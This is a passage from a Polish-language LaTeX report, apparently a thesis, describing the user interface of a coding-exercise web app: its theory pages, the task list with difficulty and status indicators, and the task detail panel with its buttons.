    
\includegraphics[width=1\linewidth]{images/frontend/app/topics_theory_hover.png}
    \caption{Widok kafla po najechaniu na przycisk teorii.}
\end{figure}

\begin{figure}[H]
    \centering
    
\includegraphics[width=1\linewidth]{images/frontend/app/topics_exercise_hover.png}
    \caption{Widok kafla po najechaniu na przycisk zadań.}
\end{figure}

\subsubsection{Widok teorii w kontekście tematu}
Wciśnięcie przycisku teorii (książka) przekierowuje użytkownika do strony z teorią dla wybranego tematu. Pliki markdown z teorią są przechowywane po stronie frontendu. U dołu górnej belki wyświetla się panel nawigacyjny, ukazujący nazwę tematu, umożliwiający powrót do listy tematów i przejście do listy zadań z danego tematu.

\begin{figure}[H]
    \centering
    
\includegraphics[width=1\linewidth]{images/frontend/app/theory.png}
    \caption{Widok ze wstępem teoretycznym do wybranego tematu.}
\end{figure}

\subsubsection{Widok listy zadań w kontekście tematu}
Wciśnięcie przycisku zadań (notatnik i ołówek) przekierowuje użytkownika do strony z listą zadań dla wybranego tematu, z podziałem na poziomy trudności (easy - łatwy, medium - średni, hard - trudny). U dołu górnej belki wyświetla się panel nawigacyjny, ukazujący nazwę tematu, umożliwiający powrót do listy tematów i przejście do zagadnień teoretycznych z danego tematu. Zadania przedstawione są w formie kwadratowych kafelków. Każdy kafelek przedstawia numer zadania w obrębie tematu, poziom trudności oraz status. Poziom trudności wyrażany jest kolorową kropką, gdzie zadania na poziomie łatwym mają kropkę zieloną, na poziomie średnim - żółtą, a na poziomie trudnym - czerwoną. Ikony u dołu kafla informują użytkownika o stopniu ukończenia zadania. Zadanie nowe nie posiada ikon. Zadanie rozpoczęte posiada ikonę ołówka. Zadanie ukończone posiada ikonę potwierdzenia (ptaszek). Kliknięcie na kafel otwiera kontekst zadania, a sam aktywny kafel się podświetla. Panel z kontekstem zadania wyświetla następujące informacje:
\begin{itemize}
    \item \textbf{Topic} - temat;
    \item \textbf{Tags} - tagi doprecyzowujące treść zadania;
    \item \textbf{Num} - numer zadania w obrębie tematu;
    \item \textbf{Difficulty} - poziom trudności, spośród: \begin{itemize}
        \item \textbf{easy} - łatwy;
        \item \textbf{medium} - średni;
        \item \textbf{hard} - trudny;
    \end{itemize}
    \item \textbf{Status} - stan ukończenia zadania przez użytkownika, spośród: \begin{itemize}
        \item \textbf{new} - nowy, niezaczęty;
        \item \textbf{inProgress} - w toku, rozpoczęty;
        \item \textbf{done} - ukończony;
    \end{itemize}
    \item \textbf{Last viewed} - data i godzina ostatniego wejścia w edytor kodu zadania;
    \item \textbf{Languages} - języki programowania wykorzystywane w zadaniu;
    \item \textbf{Description} - opis zadania, polecenie;
\end{itemize}
U dołu panelu wyświetlają się przyciski zależne od stanu ukończenia zadania
\begin{itemize}
    \item Stan \textbf{new} \begin{itemize}
        \item \textbf{Start} - rozpocznij rozwiązywanie zadania, otwórz edytor kodu;
    \end{itemize}
    \item Stan \textbf{inProgress} \begin{itemize}
        \item \textbf{Continue} - kontynuuj rozwiązywanie zadania z zachowaniem wprowadzonych zmian, otwórz edytor kodu;
        \item \textbf{Restart} - zresetuj postęp zadania, otwórz edytor kodu;
    \end{itemize}
    \item Stan \textbf{done} \begin{itemize}
        \item \textbf{View} - wyświetl rozwiązane zadanie bez możliwości edycji, otwórz edytor kodu;
        \item \textbf{Restart} - zresetuj postęp zadania, otwórz edytor kodu;
    \end{itemize}
\end{itemize}

\begin{figure}[H]
    \centering
